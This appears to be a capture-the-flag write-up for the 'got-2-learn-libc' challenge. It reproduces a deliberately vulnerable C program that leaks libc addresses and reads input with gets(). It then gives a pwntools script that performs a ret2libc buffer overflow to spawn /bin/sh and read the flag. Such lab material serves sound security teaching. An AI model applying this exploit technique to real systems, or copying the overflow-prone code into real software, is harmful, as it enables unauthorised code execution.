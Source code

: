 got-2-learn-libc - Points: 250
===========

## Description

>This program gives you the address of some system calls. Can you get a shell?

## Hint:

> * try returning to systems calls to leak information
> * don't forget you can always return back to main()


## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */


void vuln(){
  char buf[BUFSIZE];
  puts("Enter a string:");
  gets(buf);
  puts(buf);
  puts("Thanks! Exiting now...");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  puts("Here are some useful addresses:\n");

  printf("puts: %p\n", puts);
  printf("fflush %p\n", fflush);
  printf("read: %p\n", read);
  printf("write: %p\n", write);
  printf("useful_string: %p\n", useful_string);

  printf("\n");
  
  vuln();

  
  return 0;
}
```

## Useful Information

> * We have the System and "/bin/sh" address:

> * We cannot write hex as input in terminal (need python script)  :exclamation:

## Exploit

**REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)

**Basic Ret2Lib:**

SYS_ADR=PUTS_ADR-0x24800 (Can be found under GDB or Radare2)

BUFFER+SYS_ADR+RET_ADR+BIN_SH_ADR

```python
#!/usr/bin/python2.7
from pwn import *

#GET INFO
user=raw_input("user = ")
password=raw_input("password = ")
host=raw_input("host = ")
path_exec="/problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33"
prog_name="vuln"

#MAKE PAYLOAD
sh =  ssh(host=host,user=user,password=password).process(path_exec+"/"+prog_name)
system_off = 0x24800
adr=sh.recv(4096).decode("utf-8")
print(adr)
adr_puts=int(raw_input("puts: 0x"),16)
adr_useful_string=int(raw_input("useful_string: 0x"),16)
adr_system=adr_puts-system_off

#SEND PAYLOAD AND GOT SHELL
sh.sendline('A'*160+str(p32(adr_system))+'BBBB'+str(p32(adr_useful_string)))
sh.sendline('cd '+path_exec)
sh.sendline('cat flag.txt ')
sh.interactive()
sh.close()

```


